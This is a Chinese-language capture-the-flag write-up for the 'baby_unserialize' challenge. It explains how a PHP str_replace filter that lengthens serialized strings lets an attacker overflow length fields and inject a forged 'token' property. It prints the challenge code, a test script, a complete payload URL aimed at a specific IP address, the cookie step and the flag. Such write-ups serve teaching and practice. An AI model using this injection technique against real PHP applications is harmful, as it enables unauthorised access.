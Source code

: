 # baby_unserialize

可恶，这里也有黑子。

一道反序列化题。不过之前没见过类似考点的php反序列化，还好搜到了[答案](https://xiaolong22333.top/index.php/archives/14/)，考点完全一致。

```php
<?php
session_start();
highlight_file(__FILE__);

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

$r = $_GET['r'];
$s = $_GET['s'];

if(isset($r) && isset($s) ){
    $moe = new moectf($r,$s);
    $emo = str_replace('aiyo', 'ganma', serialize($moe));
    $_SESSION['moe']=base64_encode($emo);

}

'a.php';
```

我之前直接被卡在这里，反序列化漏洞没有unserialize怎么搞？后来发现末尾的a.php不是打错了，是有这样一个文件，里面就是我们要找的unserialize函数。

```php
<?php
session_start();
highlight_file(__FILE__);

include('flag.php');

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

if($_COOKIE['moe'] == 1){
    $moe = unserialize(base64_decode($_SESSION['moe']));
    if($moe->token=='baizi'){
        echo $flag;
    }
}
```

看session还以为是seesion反序列化漏洞，但是没有解释引擎的差别没法利用。这题做法和上面提到的那篇博客完全一致。第一个文件将序列化后的字符串（这个序列化后很重要）中aiyo替换成ganma，发现替换后的字符串比原先多了一个。出现了个什么问题呢？序列化字符串对被序列化的类中的字段长度有规定，比如s:114要求后面的字符串只能有114的长度，可是你替换了不就变长了吗？故替换后是无法被反序列化的。

php在反序列化时，底层代码是以;作为字段的分隔，以}作为结尾，并且是根据长度判断内容。拿出sql注入一样的思路，我们自己伪造;和}来闭合，构造一个假的序列化字符串。可以做个实验。

```php
<?php
class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}
$test=new moectf('c','aiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}');
$moe=serialize($test);
$emo = str_replace('aiyo', 'ganma', serialize($moe));
var_dump(unserialize($emo));
?>
```

aiyo每替换一次，都会造成长度1的溢出。我们要伪造剩下的";s:5:"token";s:5:"baizi";}部分，故需要填写27个aiyo。一个aiyo是s:4:"aiyo"，替换后是s:4:"ganma"。长度不一致，所以只有ganm会保留，a溢出。a不是有效的格式化字符串，反序列化失败。如果我们这样，多来几个aiyo，同时保证溢出的内容有效，不就可以自己随意替换后面的值了吗？就算后面真正的token不会被删除，php也只会反序列化}部分，自动忽略后面。故上面的例子是可以反邪话成功的。因此这就是我们的payload了。

- http://43.138.48.124:12345/?r=a&s=aiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo%22;s:5:%22token%22;s:5:%22baizi%22;}

别忘了还有cookie。chrome里面去cookie处自己新建一个名为moe值为1的cookie后进入a.php即可看见flag。

- ### Flag
  > moe{Her3_1s_Y0ur_fl4g}